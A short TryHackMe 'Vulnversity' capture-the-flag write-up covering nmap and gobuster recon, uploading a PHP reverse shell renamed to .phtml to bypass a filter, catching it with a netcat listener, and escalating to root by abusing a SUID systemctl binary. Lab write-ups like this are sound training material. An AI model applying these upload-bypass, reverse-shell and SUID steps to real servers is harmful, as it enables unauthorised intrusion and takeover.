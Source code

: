 ```yaml
---
title: THM Vulnversity Writeup
date: 2022-05-20 12:00:00 -0700
categories: [tryhackme,ctf]
tags: [writeup,hacking,web,linux] # TAG names should always be lowercase
---
```

# Vulnversity write-up
---

### Task
**Recon**
	use nmap to solve 
```bash
nmap -sV -n $IP
```

**Directory traversal**
	use gobuster to solve
```bash
gobuster dir -u http://$IP:3333 -w /path/to/wordlist
```

**Compromise web-server**
	use burpsuite to solve
 - **Steps**
	- go to proxy tab
	- click open browser
	- navigate to http://$IP:3333/internal/
	- turn intercept on
	- try to upload a [[SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php|php-reverse-shell]]
	- in the request change the file extetion to .phtml
	- forward the request
	- in a terminal set up a listener
	```bash
nc -lnvp 1234
	```
	- now navigate to http://$IP:3333/internal/uploads/php-reverse-shell.phtml
	- go to your terminal and see you have a shell
	- now stabilize the shell with python
	```python
python -c 'import pty; pty.spawn("/bin/bash")'
	```
	- export a terminal
	```bash
export TERM=xterm
	```
	- now view the home directory to get an answer
	- cat out the flag.txt for the next answer

**Privlage Escalation**
	this one was simple but i'm an idiot
- **Steps**
	- enumerate the system 
	- when checking SUIDs find them with this
	```bash
find / -perm -4000 2>/dev/null
	```
	- you'll see systemctl is usefull
	- check out [GTFOBins](https://gtfobins.github.io) 
	- change the "id > /tmp/output" to a reverse shell or just have it cat the next flag
	- **Don't make it one line, it will be a formatting error for systemctl !!**
	- go to /root/ and read root.txt for the final flag